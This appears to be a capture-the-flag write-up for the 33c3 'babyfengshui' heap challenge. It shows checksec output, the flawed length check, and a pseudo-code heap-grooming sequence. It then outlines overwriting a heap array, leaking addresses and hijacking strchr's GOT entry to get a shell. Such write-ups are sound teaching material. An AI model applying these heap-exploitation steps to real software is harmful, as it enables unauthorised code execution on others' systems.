 input text比較

text = malloc(10)
name = malloc(128)

scanf("%d",size);
if &name > &text+size
    read(0,text,size);

# babyfengshui

## 0x1 Introduction

```
┌──[ root Hacked by Hawk1n5 at 50000-AntiVir-Linux in ~/ctf/33c3/pwn/baby ]
└─────> file babyfengshui 
babyfengshui: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=cecdaee24200fe5bbd3d34b30404961ca49067c6, stripped
┌──[ root Hacked by Hawk1n5 at 50000-AntiVir-Linux in ~/ctf/33c3/pwn/baby ]
└─────> checksec babyfengshui 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache/update to 'never'.
[*] A newer version of pwntools is available on pypi (3.2.0 --> 3.3.0).
    Update with: $ pip install -U pwntools
[*] '/root/ctf/33c3/pwn/baby/babyfengshui'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

this is a heap challenge，it have some feature:
```
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
Action: 
```
* 0: Add a user
    * scanf("%d",&size);
    * text = malloc(size);
    * name = malloc(0x80);
* 1: Delete a user
    * free(name)
    * free(text)
* 2: Display a user
    * printf("name: %s\n",name);
    * printf("description: %s\n",text);
* 3: Update a user description
    * modify text
* 4: Exit
    * quit...

## 0x1 Vulnerbility

if add user and update,when you want input text

```
text length: 1
text: b
```

it will ask text length,it look like:

```
scanf("%d",length);
if &name > &text+length
    read(0,text,length);
```

it check name address big then text address add length and it will read()

so if we do some operating :

```
def add_user(size,name,len,text)
add_user(10,"a",2,"a") # user0
add_user(10,"b",2,"b") # user1
delete(0)
add_user(128,"c",200,"c"*200) # user2
```

first we add two user,and then delete user0

text chunk will be fastbin,and name chunk will be unsorted bin.

and add user text size is 128 it will allocation unsorted bin chunk

name size will allocation after user1,it will look like this in heap:

```
------------
user2->text
------------
user1->text
------------
user1->name
------------
user2->name
------------
```

and look this judgment `if &name > &text+length`

now len can big to overwrite user1 chunk

next,can overwrite heap_array(0x804b080) and leak information

final hijack strchr.got and input sh will get shell!!!

